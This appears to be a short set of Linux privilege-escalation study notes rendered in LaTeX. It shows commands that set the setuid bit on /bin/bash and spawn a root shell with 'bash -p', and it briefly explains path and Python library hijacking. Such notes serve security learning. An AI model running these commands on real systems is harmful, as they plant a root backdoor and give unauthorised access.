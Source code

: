 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\ImportTok}[1]{#1}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\hypertarget{add-ssuid-privilege-to-tool}{%
\section*{Add SSUID privilege to tool}\label{add-ssuid-privilege-to-tool}}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -l /bin/bash}
\CommentTok{# output}
\ExtensionTok{-rwxr-xr-x}\NormalTok{  1   root    root    1037528 May 16  2017    bash}

\CommentTok{#add ssuid rules}
\FunctionTok{chmod}\NormalTok{ u+s /bin/bash}
\FunctionTok{ls}\NormalTok{ -l /bin/bash}
\CommentTok{#output}
\ExtensionTok{-rwsr-xr-x}\NormalTok{  1   root    root    1037528 May 16  2017    bash}

\FunctionTok{bash}\NormalTok{ -p}
\CommentTok{# output}
\ExtensionTok{bash-4.3}\NormalTok{# whoami}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

\hypertarget{path-hijacking}{%
\section*{Path Hijacking}\label{path-hijacking}}

\textbf{Path Hijacking} take profit of programms that are ssuid and use a command that have a relative path. You can then update the Path variable environment
and point to a malicious software that will be executed as root

\hypertarget{library-hijacking}{%
\section*{Library Hijacking}\label{library-hijacking}}

\textbf{Library Hijacking} follows exactly the same logic as \textbf{Path Hijacking} but with programming languages. If we take the example of python.

\begin{Shaded}
\begin{Highlighting}[]
\ImportTok{import}\NormalTok{ sys}

\BuiltInTok{print}\NormalTok{(sys.path)}
\CommentTok{#Output}
\NormalTok{[}\StringTok{''}\NormalTok{, }\StringTok{'/usr/lib/python2.7'}\NormalTok{, ...]}
\end{Highlighting}
\end{Shaded}
\end{document}
